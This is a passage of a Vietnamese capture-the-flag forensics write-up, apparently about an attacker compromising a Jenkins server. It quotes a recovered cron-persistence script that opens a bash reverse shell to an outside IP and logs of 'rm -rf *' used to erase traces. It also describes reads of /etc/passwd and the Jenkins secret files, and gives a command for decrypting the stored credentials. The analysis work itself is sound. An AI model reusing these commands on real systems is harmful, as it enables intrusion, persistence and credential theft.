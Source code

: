```
May 17 13:23:44 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=./pers.sh
May 17 13:24:50 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/rm -rf *

```

- Thực thi file pers.sh và xoá dấu vết 
- Bây giờ em ở file *.pcapng lên để xem dữ liệu tại các file có gì
- Đây là dữ liệu file data.bin, decode base58
```
QMSKuQ1jyJEwJYVQPQNGfTdsjT1dbfPBxU1kCuYTwUZC552VDJdFC3NNY6cy5hEm1hAEQn31sJH6VRtknUWjTMyRT5Q4swp71q6QfLX3wCLrgfiDYXGeim49bUpgbSdDfc2EZbgBhBeL8tC2GrPogAAVN1BQ14pEVDm7TzsFNUqvLjLk7M6vY9UsemS1m4AzVshZCSs6sY31f5UCkYC6BbvWUrqFeab5m5DCxZFroHHuCKu6yQQA4BJeASiicfoktdUWHtQeszxuQi6HXBQGytZ5mtGSbbhn2UZngWENU6ESZVLrG3siwz3uFCQw71H78Q29YXgqZb6sv4uDhS95YV3ae8DKLMwrm5c9wWuhM24
```
```
job_name="RV8zMGQ4NGQ4MDFiMjk0N2YxYmQyZmFhZTRmZGNiYjkyNn0="
script_path="/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.222.151/1337 0>&1'"
cron_schedule="0 5 * * *"
(crontab -l 2>/dev/null; echo "$cron_schedule $script_path # $job_name") | crontab -
```
- Có vẻ như 1 Revershell được triển khai, ta có được đoạn flag cuối tại biến job_name 
> Flag_3 : `E_30d84d801b2947f1bd2faae4fdcbb926}`

- Theo dõi luồng websocket
- Đầu tiên attacker đọc tệp `@/etc/passwd`, sau đó đọc tệp `/var/lib/jenkins/secrets/master.key` và `/var/lib/jenkins/credentials.xml`, tại luồng thứ 4 ta thấy được phần 2 của flag
> Flag_2 : 1s_0n_3dg

- Dựa vào các thông tin trên có vẻ như hacker đang muốn lấy thông tin đăng nhập người dùng 
- ![image](image/6.PNG)
- Tại file credentials.xml chứa 1 mật khẩu nhưng nó đã bị mã hoá, tra google thì em tìm được trang [này](https://github.com/tarvitz/jenkins-utils)
- Ta cần 2 file để giải mã là master.key và hudson.util.Secret, riêng tệp hudson.util.Secret đã bị mã hoá base64 trong luồng tcp 55 
```
python invoke.py --master-key master.key --hudson-secret-key hudson.util.Secret --action decrypt "{AQAAABAAAAAgZv2vv4JB/AgWN1I47+8m9yZ+me7oTd6xvWNvtk5vJcx6UTPCzAvPcL3ugFrzQ0L+}"

``` 
- Ta thu được flag_3: L3AK{J3nk1n$_1s_0n_3dgE_30d84d801b2947f1bd2faae4fdcbb926}
> Flag : L3AK{J3nk1n$_
## HoldOnTight - Forensics
### Description